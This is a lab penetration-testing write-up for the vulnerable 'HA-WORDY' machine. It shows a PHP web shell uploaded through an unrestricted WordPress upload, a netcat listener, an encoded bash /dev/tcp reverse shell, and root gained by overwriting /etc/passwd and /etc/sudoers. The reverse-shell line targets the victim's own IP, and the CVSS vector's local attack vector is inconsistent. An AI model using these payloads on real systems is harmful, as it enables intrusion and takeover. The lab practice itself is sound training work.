# Penetration Testing Report – HA-WORDY

## Target Information

| Field | Details |
|---|---|
| Machine Description | A deliberately vulnerable lab machine for practicing web app exploits, privilege escalation, and post-exploitation to gain user and root access. |
| Target IP | `192.168.0.138` |
| Vulnerability Name | Unrestricted File Upload → Remote Code Execution, Remote Command Execution via Uploaded Script, Insecure Privileged Operation |
| Port / Service | `TCP 80 / HTTP` |
| Severity | High (7.4) |
| Attack Vector | `CVSS:3.0/AV:L/AC:H/PR:N/UI:N/S:U/C:H/I:H/A:H` |

---

# Proof of Concept (PoC)

## Step 1 – Discover Target IP

```bash
nmap -sn 192.168.0.0/24
```



---

## Step 2 – Scan Open Ports and Services

```bash
nmap -p- -sC -sV 192.168.0.138 --open
```



---

## Step 3 – Discover Upload Functionality

Using WPScan, an upload page was discovered on the target.

```bash
wpscan --url http://192.168.0.138
```



---

## Step 4 – Prepare Upload Page

Created a custom upload page using `36374.txt`.



---

## Step 5 – Create Payload

Prepared a malicious upload payload.

```php
<?php system($_GET['cmd']); ?>
```



---

## Step 6 – Upload and Execute Payload

The vulnerability was abused to upload and execute the payload.



---

## Step 7 – Upload Malicious File

Selected the payload and uploaded it to the target.



---

## Step 8 – Confirm Upload

Payload upload completed successfully.



---

## Step 9 – Locate Uploaded File

A new folder named `2015` appeared after upload.



---

## Step 10 – Execute cmd.php

Attempted to execute commands through `cmd.php`.



---

## Step 11 – Start Netcat Listener

```bash
nc -lvnp 9090
```



---

## Step 12 – Execute Reverse Shell

Encoded reverse shell payload:

```text
bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.0.138%2F9090%200%3E%261%27
```



---

## Step 13 – Gain Shell Access

A reverse shell was received on the Netcat listener.



---

## Step 14 – Discover Privileged Copy Command

A copy command with elevated privileges was discovered.



---

## Step 15 – Overwrite `/etc/passwd`

The vulnerable operation was abused to overwrite `/etc/passwd`.


---

## Step 16 – Rebuild System File

The original contents had to be manually copied into a new file.



---

## Step 17 – Overwrite `/etc/sudoers`

The same technique was used against `/etc/sudoers`.



---

## Step 18 – Obtain Root Access

Root access was achieved using the modified credentials.



---

# Remediation

- Only allow safe file types and validate file content.
- Store uploads outside executable web directories.
- Rename uploaded files and remove execute permissions.
- Require authentication for uploads.
- Scan uploaded content automatically for malware.

---

# Impact

- Remote command execution on the server.
- Unauthorized access to sensitive files.
- Full server compromise.
- Service disruption and reputational damage.

---

# References

- https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload
